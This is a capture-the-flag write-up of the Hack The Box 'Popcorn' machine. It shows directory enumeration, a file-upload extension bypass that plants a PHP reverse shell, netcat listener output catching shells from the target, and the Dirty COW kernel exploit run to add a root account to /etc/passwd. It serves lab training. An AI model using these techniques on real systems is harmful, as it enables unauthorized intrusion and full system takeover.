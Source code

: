 # recon
- 22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))

## gobuster
- /cgi-bin/ (Status: 403) -> forbiden
- /index (Status: 200)
- /rename (Status: 301) `index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name`
- /test (Status: 200) -> phpinfo()
- /torrent (Status: 301) -> Torrent hoster

### Torrent hoster
```
/admin (Status: 301)
/.htpasswd (Status: 403)
/browse (Status: 200)
/comment (Status: 200)
/config (Status: 200)
/css (Status: 301)
/database (Status: 301)
/download (Status: 200)
/edit (Status: 200)
/health (Status: 301)
/hide (Status: 200)
/images (Status: 301)
/index (Status: 200)
/js (Status: 301)
/lib (Status: 301)
/login (Status: 200)
/logout (Status: 200)
/preview (Status: 200)
/readme (Status: 301)
/rss (Status: 200)
/secure (Status: 200)
/stylesheet (Status: 200)
/templates (Status: 301)
/thumbnail (Status: 200)
/torrents (Status: 301)
/upload (Status: 301)
/upload_file (Status: 200)
/users (Status: 301)
/validator (Status: 200)
```
Always using happy path to understand the application. I notice that I can upload a picture on the server after I publish a torrent on the application. I uploaded a picture of cute cat, the picture is then save in `/torrent/upload/`


so we can try to upload a malicious php as a picture and visti `/torrent/upload/` to execute the file.... It didnt works. so I ran `burp` to intercept the request and check it out.
```
Content-Disposition: form-data; name="file"; filename="cutiecat.php.png"
Content-Type: image/png
```
I changed `filename="cutiecat.php.png"` to `filename="cutiecat.php"` now check. the page `/torrent/upload/` and check if our reveseshell got upload and BOOM it is there. now view our .php to get a reverse shell!!
```
[10.10.14.43]-bibo318@parrot:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.6] 51870
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 17:36:03 up 13:22,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@popcorn:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root   root   4096 Mar 17  2017 .
drwxr-xr-x 21 root   root   4096 Oct 31 04:13 ..
drwxr-xr-x  3 george george 4096 Oct 26 19:35 george
www-data@popcorn:/home/george$ ls -l
ls -l
total 836
-rw-r--r-- 1 george george 848727 Mar 17  2017 torrenthoster.zip
-rw-r--r-- 1 george george     33 Oct 31 04:14 user.txt
```
nice we have permission to `r` on `george` directory, grab user flag and let recon to gain root.
# root
linpeas.sh dont gave much info, we found some password for database and we know that the kernel is old. I also find `motd`. I tried to exploit popcorn with motd but it didnt work. `dos2unix 14339.sh` didn't help either. when I excecute the exploit it asked me for www-data password which I do not have... So I go for kernel exploitation instead, dirty cow!
```console
www-data@popcorn:/tmp$ gcc -pthread dirty.c -o dirty -lcrypt
gcc -pthread dirty.c -o dirty -lcrypt
www-data@popcorn:/tmp$ chmod +x dirty
chmod +x dirty
www-data@popcorn:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: <leave it empty>

Complete line:
firefart:figsoZwws4Zu6:0:0:pwned:/root:/bin/bash

mmap: b7879000
^C
[10.10.14.43]-bibo318@parrot:~/HTB/popcorn$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.6] 38532
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
 19:06:29 up 40 min,  0 users,  load average: 1.79, 1.26, 0.86
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@popcorn:/$ su - firefart
su - firefart
Password: <leave it empty>

firefart@popcorn:~# ls
ls
root.txt
```